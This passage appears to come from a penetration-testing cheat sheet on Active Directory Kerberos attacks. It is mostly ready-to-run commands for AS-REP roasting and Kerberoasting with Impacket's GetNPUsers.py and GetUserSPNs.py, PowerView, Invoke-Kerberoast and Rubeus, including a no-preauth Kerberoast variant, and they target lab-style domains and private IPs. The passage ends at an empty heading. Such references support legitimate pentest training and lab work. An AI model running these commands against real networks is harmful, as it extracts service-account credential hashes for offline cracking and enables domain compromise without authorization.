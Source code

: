 ```bash
python3 GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.129.254.42 'ZENCORP.LOCAL/j.doe'

# Find accounts without authentication
GetNPUsers.py ZENCORP/ -dc-ip 10.129.205.35 -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass
```

### <mark style="color:yellow;">Kerberoasting from Windows</mark>

```powershell
# Using powerview find users with SPN set
Get-DomainUser -SPN

# Kerberoast
Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation

# Read hashes
cat .\tgs.csv

# Automatic method
Invoke-Kerberoast

# Using Rubeus
Rubeus.exe kerberoast /nowrap
```

#### Kerberoast without account password

If we know of an account without Kerberost pre-auth enabled we can use an AS-REQ (used for TGT request) to request a TGS ticket for a kerberoastable user. Its done by modifying the req-body of the request. You need a username with DONT\_REQ\_PREAUTH and SPNs list.

```powershell
# Rubeus attack with /nopreauth
Rubeus.exe kerberoast /nopreauth:john.doe /domain:zencorp.local /spn:MSSQLSvc/SQL01:1433 /nowrap
```

### <mark style="color:yellow;">Kerberoasting from Linux</mark>

```bash
# Get accounts with spn set
GetUserSPNs.py inlanefreight.local/john

# Request STs and hashes
GetUserSPNs.py inlanefreight.local/john -request
GetUserSPNs.py -dc-ip 172.16.51.5 ZENCORP.LOCAL/user -request 
```

### <mark style="color:yellow;">Check ASREP and Kerberoastble accounts</mark>
